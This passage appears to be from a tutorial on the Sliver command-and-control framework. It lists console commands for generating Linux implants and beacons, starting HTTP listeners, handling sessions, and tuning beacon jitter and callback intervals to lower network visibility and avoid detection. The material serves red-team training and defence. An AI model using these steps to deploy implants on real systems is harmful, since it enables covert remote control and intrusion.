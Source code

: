 ```bash
# Generate implant
> generate -b localhost --os linux --skip-symbols --debug

# List implants
> implants

# Start a HTTP listener
> http

# List listeners
> jobs

# List sessions
> sessions

# Choose session
> use

# Get session information
> info
```

## Beacons vs Sessions

Sliver implants operate in two modes: sessions and beacons. **Sessions maintain a persistent connection** to the C2 using long-polling, keeping a TCP connection open for continuous communication. This allows for real-time interaction but increases network visibility.

**Beacons** function differently, **calling back at configurable intervals and remaining dormant between check-ins**. This periodic behavior reduces the implant’s network footprint, making detection less likely. Callback frequency can be tuned—for instance, to every six hours—and shortened temporarily to enable active control when needed.

```bash
# Generate a beacon (-j -> jitter, -S -> callback time)
> generate beacon -b localhost --skip-symbols --debug -j5 -S 15 --os linux

# List beacons
> beacons

# Check beacons' callback times
> beacons watch
> info

# Modify the jitter and callback time on the fly
> reconfig -i 5s -j 1s

# List commands issued for beacons
> tasks

# Results of the previously run tasks
> tasks fetch

# Spin up session on the beacon (a session will be received)
> interactive
```
